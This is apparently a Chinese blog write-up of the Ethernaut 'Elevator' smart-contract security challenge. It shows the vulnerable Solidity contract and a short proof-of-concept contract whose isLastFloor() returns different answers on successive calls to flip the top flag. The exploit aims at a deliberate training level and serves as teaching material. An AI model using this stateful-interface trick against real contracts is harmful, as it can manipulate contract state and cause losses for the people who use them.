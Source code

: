 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-9'
date: 2022-12-11 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](G:\vue-press\hanxin-vuepress\docs\技术文章\区块链相关\assets\1670479273112.png)

:::

#### 第十一关Elevator  思路与POC

#### 目标: 将top变量设置为true

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
   //这里是想让你实现isLastFloor(uint)函数,并能够在相同的输入的情况下返回两种不同的状态
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

##### poc思路:point_right:：虽然这题看起来有点不知所以然,但是它实际想说明的是如果在没有view或者pure关键字修饰的情况下,你可以更改isLastFloor(_floor)函数返回的状态. 令其在相同的输入情况下返回true或者false

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract ElevatorTest is Building {
  
  Elevator public ele = Elevator(0x805f317592037DF3f64ceb645f65dFcdA24298A1);
  bool public state = false ; //初始状态false
  //重写接口函数
  function isLastFloor(uint)  external  returns (bool){
    //第一次调用返回false 
    if(! state){
       state = true;
        return false;
     //第二次state的值更改所以返回true
    }else {
        return true;
      }
  }
  function BuildTest(uint floorT) public {
        ele.goTo(floorT);
  }
}
```

